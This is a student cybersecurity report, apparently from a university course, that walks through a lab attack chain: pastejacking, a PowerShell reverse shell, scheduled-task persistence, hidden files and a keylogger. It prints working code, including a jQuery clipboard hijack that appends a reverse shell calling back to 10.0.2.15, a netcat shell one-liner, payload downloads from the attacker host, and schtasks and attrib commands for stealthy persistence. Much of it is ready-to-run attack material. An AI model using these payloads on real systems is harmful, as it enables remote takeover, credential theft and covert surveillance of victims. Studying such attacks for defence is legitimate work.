

# Cybersecurity Report (Marco Losso)

## Introduction

This report presents a comprehensive demonstration of a cybersecurity project conducted for a university course. The project was executed in a controlled and safe environment, strictly for educational purposes.

The demo explores the technique of pastejacking, a method often employed by cyber attackers to manipulate the clipboard content of a user, leading to the execution of unintended commands. In this demonstration, pastejacking was used to spawn a reverse shell from a Windows Server 2008 system (with metasploit) to a Kali Linux system. A reverse shell essentially opens a pathway for the attacker's system to communicate with the victim's system, providing control over the victim's system.

Once the reverse shell was established, a persistence mechanism was implemented. This ensured that the victim's system would automatically reconnect to the attacker's machine after every restart, maintaining the established connection over time.

Further, the reverse shell was leveraged to download a keylogger onto the victim's system. A keylogger is a tool that records the keystrokes on a system, providing valuable information like usernames, passwords and card numbers to the attacker.

This report aims to provide a detailed walkthrough of these processes, shedding light on the intricacies of these techniques.


## Pastejacking

Pastejacking is a technique that manipulates the clipboard content of a user, leading them to execute unintended commands. This technique takes advantage of the trust users place in their clipboard, and the fact that terminal commands can be executed without providing a visual indication of their full content.

In this project, a simple webpage was created using HTML. This webpage presented users with a block of code that they could copy and execute in their terminal. However, the actual content copied to the clipboard included additional code that spawned a reverse shell. This is the essence of pastejacking - what you see is not always what you get.

An important feature of the webpage is its ability to identify the operating system of the user's machine. This allows the malicious code to be tailored to the specific system, increasing the likelihood of successful exploitation. For the purposes of this project, the target system was chosen to be Windows.

Before the attack, the Apache2 service on the Kali Linux system was started using the command `sudo service apache2 start`. This made the webpage accessible to the victim's machine.

The process can be broken down into the following steps:

1. **Creating the Webpage**: A simple webpage was created with a block of seemingly innocuous code that users are prompted to copy. This could be presented as a solution to a common problem, enticing users to copy the code.



2. **Implementing Pastejacking**: Through the use of JavaScript, the actual content that gets copied is manipulated. When users copy the code, additional malicious code is appended or prepended. In this case, the additional code spawns a reverse shell when pasted into the terminal.

```js
$('#copyButton').on('click', function(e) {
            var original = $('#code').text();
            var appended;
            if(navigator.platform.indexOf("Win") !=-1) {
                
                appended = original + '; Start-Job -ScriptBlock { $client = New-Object System.Net.Sockets.TCPClient(\'10.0.2.15\',4444);
                                                                  $stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};
                                                                  while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){
                                                                      $data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);
                                                                      $sendback = (iex $data 2>&1 | Out-String );
                                                                      $sendback2 = $sendback + \'PS \' + (pwd).Path + \'> \';
                                                                      $sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);
                                                                      $stream.Write($sendbyte,0,$sendbyte.Length);
                                                                      $stream.Flush()};
                                                                  $client.Close();  }; ';
            } else {

                appended = 'nc - e /bin/sh 10.0.2.15 4444; ' + original;
            }
```

3. **Implementing Pastejacking and Executing the Malicious Code**: Through the use of JavaScript, the actual content that gets copied is manipulated. 
When users copy the code, additional malicious code is appended or prepended. This additional code is designed to spawn a reverse shell when pasted into the terminal and executed by the user.

## Reverse Shell

A reverse shell is a type of shell in which the target machine communicates back to the attacking machine. The attacking machine has a listener port on which it receives the connection, which by using the 'netcat' command, provides a controlling terminal.

In the context of this project, once the pastejacking technique is successfully implemented, the malicious code that gets executed on the victim's machine is designed to spawn a reverse shell. This shell connects back to the attacker's machine, specifically a Kali Linux system that is listening for incoming connections.

The Kali Linux system uses the `netcat` command to listen on port 4444, waiting to establish a TCP connection with the victim's machine. The command used is `nc -lvp 4444 -n`, where:
- `nc` stands for netcat.
- `-l` stands for listen mode, for inbound connects.
- `-v` stands for verbose, which causes netcat to be chatty, printing out progress messages.
- `p` stands for local port.
- `4444` is the port number to listen on.
- `-n` stands for numeric-only IP addresses, and not to do DNS resolution or service lookups.

The PowerShell code used to spawn the reverse shell works as follows:

```powershell
$client = New-Object System.Net.Sockets.TCPClient(\'10.0.2.15\',4444);
$stream = $client.GetStream();
[byte[]]$bytes = 0..65535|%{0};
while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){
    $data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);
    $sendback = (iex $data 2>&1 | Out-String );
    $sendback2 = $sendback + \'PS \' + (pwd).Path + \'> \';
    $sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);
    $stream.Write($sendbyte,0,$sendbyte.Length);
    $stream.Flush()};
$client.Close();
```

Where:
- `$client = New-Object System.Net.Sockets.TCPClient(\'10.0.2.15\',4444)`: This line creates a new TCP client that connects to the specified IP address and port.
-`$stream = $client.GetStream()`: This line retrieves the network stream used to send and receive data.
- `[byte[]]$bytes = 0..65535|%{0}`: This line creates a byte array of size 65536 (ranging from 0 to 65535), with each element initialized to 0.
- `while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){...}`: This is a while loop that continues as long as there is data to read from the network stream.
- `$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i)`: This line converts the bytes read from the network stream into a string.
- `$sendback = (iex $data 2>&1 | Out-String )`: This line executes the command received from the attacker’s machine and converts the output to a string.
- `$sendback2 = $sendback + \'PS \' + (pwd).Path + \'> \'`: This line prepares the output to be sent back to the attacker’s machine.
- `$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2)`: This line converts the output string to a byte array.
- `$stream.Write($sendbyte,0,$sendbyte.Length)`: This line sends the output back to the attacker’s machine.
- `$stream.Flush()`: This line clears the network stream to ensure that all data has been sent.
- `$client.Close()`: This line closes the TCP client.


## Persistence

Persistence in a cybersecurity context refers to the ability of an attacker to maintain access to a compromised system, even after the system has been rebooted, or the initial attack vector has been closed. In this project, persistence was achieved by uploading two files, "Persistence.ps1" and "persistence.vbs", to the same location as the webpage used for pastejacking.

1. **Persistence.ps1**: This file contains the same code as the reverse shell. When this script is run on the victim's machine, it spawns a reverse shell that connects back to the attacker's machine.

2. **persistence.vbs**: This file is a VBScript that is used to run the "Persistence.ps1" script in the background. Running the script in the background makes it less likely for the victim to notice the malicious process, as it won't appear in the foreground or affect the use of the system.

The process can be broken down into the following steps:

- **Uploading the Scripts**: The "Persistence.ps1" and "persistence.vbs" files are uploaded to the same location as the webpage used for pastejacking.

- **Downloading the Scripts**: Once the victim's machine is compromised, the scripts are downloaded manually using the reverse shell with the commands below.

```powershell
Invoke-WebRequest -Uri "http://10.0.2.15/Persistance.ps1" -OutFile "C:\Persistance.ps1"
Invoke-WebRequest -Uri "http://10.0.2.15/Persistance.vbs" -OutFile "C:\Persistance.vbs"
```

- **Setting the Scripts to Run at Logon**: The seguent command is executed `schtasks /create /tn "Persistance" /tr "wscript.exe 'C:\Persistance.vbs'" /sc onlogon /ru "BUILTIN\Administrators" /rp ""` to set the scripts to run at every log on as administrator by creating a task named "Persistance". This ensures that the attacker retains access to the machine, even if it is rebooted.

# IMMAGINE RS KALI CON COMANDI ESEGUITI E LS PER VEDERE I FILE SCARICATI

Here the code inside the file "Persistance.ps1"

```powershell
Start-Job -ScriptBlock { $client = New-Object System.Net.Sockets.TCPClient('10.0.2.15',4444)
$stream = $client.GetStream()
[byte[]]$bytes = 0..65535|%{0}
while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0) {
	$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i)
	$sendback = (iex $data 2>&1 | Out-String )
	$sendback2 = $sendback + 'PS ' + (pwd).Path + '> '
	$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2)
	$stream.Write($sendbyte,0,$sendbyte.Length)
	$stream.Flush()
	}
$client.Close()
} 
Pause
```

And the code of the file "Persistance.vbs"
```powershell
Set WshShell = CreateObject("WScript.Shell")
WshShell.Run "powershell.exe -File ""C:\Persistance.ps1""", 0, False
```

Finally, to further conceal the presence of these scripts on the victim's machine, they can be marked as hidden files. This can be achieved using the `attrib` command in Windows, which allows file attributes to be viewed or changed. The specific command used is `attrib +h Persistence.ps1; attrib +h Persistence.vbs`. This command sets the 'hidden' attribute for both "Persistence.ps1" and "Persistence.vbs", making them invisible in a standard directory listing. This means that a casual inspection of the directory would not reveal the presence of these files, making it even harder for the victim to detect the intrusion.

## Keylogger

In this project, a keylogger was implemented using a C program, which was converted manually from an original C++ program found on the internet at this link: [Key-Logger ++](https://github.com/chi-wei-lien/key-logger/blob/main/keylogger.cpp). The conversion was necessary due to some missing libraries in Windows Server 2008, in modern operating systems the C++ runs correctly.

The keylogger records all the keystrokes and saves them in a file named "log.txt". 

In addition to the keylogger, two more C programs were written:

1. **Client Program**: This program runs at every startup of the victim's machine. It reads the content of the "log.txt" file and sends it over a TCP connection to the attacker's machine (a Kali Linux system).

2. **Server Program**: This program runs on the attacker's machine, listening on port 8080. It waits to receive the content of the "log.txt" file sent by the client program and stores it in a file named "output.txt".

The keylogger and the client program are run in the background, making them less likely to be noticed by the victim. This stealthy operation helps to keep the attack unnoticed.

To further facilitate this process, two additional files, "key_logger.ps1" and "key_logger.vbs", were created. These files are set to run at every logon. They download the ".exe" files of the keylogger and the client program and execute them. A task was created for these files to ensure they run at every logon, these operations were done using the same commands used for the persistance. To make them less noticeable, the 'hidden' attribute was set for these files as has been done previously.
```powershell
-Uri "http://10.0.2.15/Key_Logger_Dw.ps1" -OutFile "C:\Key_Logger_Dw.ps1"
-Uri "http://10.0.2.15/Key_Logger_Dw.vbs" -OutFile "C:\Key_Logger_Dw.vbs"
schtasks /create /tn "Key_Logger" /tr "wscript.exe 'C:\Key_Logger_Dw.vbs'" /sc onlogon /ru "BUILTIN\Administrators" /rp ""
.\Kew_Logger.vbs
attrib +h Key_Logger_Dw.ps1; attrib +h Key_Logger_Dw.vbs; attrib +h Key_Logger.exe; attrib +h Client_Key_Logger.exe
```


(Note: Insert screenshot of the keylogger, client, and server programs here)

(Note: Insert code snippet of the keylogger, client, and server programs here)

## Conclusion

This project has provided a comprehensive exploration of several cybersecurity techniques, including pastejacking, reverse shell exploitation, persistence, and keylogging. Each of these techniques represents a potential threat that can be used by attackers to gain unauthorized access to systems, execute malicious commands, maintain persistent access, and gather sensitive information.

The demonstration was conducted in a controlled and safe environment, strictly for educational purposes. It serves as a reminder of the potential dangers of executing untrusted code, visiting unverified websites, and the importance of maintaining robust security measures to protect against such threats.

Through understanding these techniques, it is hoped that better preparation can be made to prevent such intrusions and safeguard digital environments. It is important to remember that these techniques should only be used ethically and legally. Misuse of such techniques can lead to severe consequences.

The project also highlights the importance of continuous learning and staying updated in the field of cybersecurity, given the rapidly evolving nature of cyber threats. It is hoped that this knowledge will contribute to the development of more secure systems and the safe use of digital resources.

